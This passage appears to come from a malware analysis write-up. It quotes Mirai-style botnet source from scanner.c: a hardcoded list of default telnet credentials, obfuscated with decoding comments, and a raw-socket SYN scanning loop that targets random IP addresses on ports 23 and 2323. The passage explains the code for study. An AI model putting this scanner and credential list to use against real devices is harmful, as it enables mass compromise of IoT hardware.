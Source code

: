 ```c
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x16\x11\x10\x13", 1);                          // admin    1234
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x52\x43\x51\x51", 1);                          // admin    pass
    add_auth_entry("\x43\x46\x4F\x4B\x4C", "\x4F\x47\x4B\x4C\x51\x4F", 1);                  // admin    meinsm
    add_auth_entry("\x56\x47\x41\x4A", "\x56\x47\x41\x4A", 1);                              // tech     tech
    add_auth_entry("\x4F\x4D\x56\x4A\x47\x50", "\x44\x57\x41\x49\x47\x50", 1);              // mother   fucker
```
You can find it within the script scanner.c.

Moreover, before this brute-force attack, it performs an IP scan. Here's the code snippet that does that:

```c
// Spew out SYN to try and get a response
if (fake_time != last_spew)
{
    last_spew = fake_time;

    for (i = 0; i < SCANNER_RAW_PPS; i++)
    {
        struct sockaddr_in paddr = {0};
        struct iphdr *iph = (struct iphdr *)scanner_rawpkt;
        struct tcphdr *tcph = (struct tcphdr *)(iph + 1);

        iph->id = rand_next();
        iph->saddr = LOCAL_ADDR;
        iph->daddr = get_random_ip(); // Here is where the random IP address is obtained
        iph->check = 0;
        iph->check = checksum_generic((uint16_t *)iph, sizeof (struct iphdr));

        if (i % 10 == 0)
        {
            tcph->dest = htons(2323); // Destination port is set here (2323)
        }
        else
        {
            tcph->dest = htons(23); // Destination port is set here (23)
        }
        tcph->seq = iph->daddr;
        tcph->check = 0;
        tcph->check = checksum_tcpudp(iph, tcph, htons(sizeof (struct tcphdr)), sizeof (struct tcphdr));

        paddr.sin_family = AF_INET;
        paddr.sin_addr.s_addr = iph->daddr;
        paddr.sin_port = tcph->dest;

        sendto(rsck, scanner_rawpkt, sizeof (scanner_rawpkt), MSG_NOSIGNAL, (struct sockaddr *)&paddr, sizeof (paddr));
    }
}
```
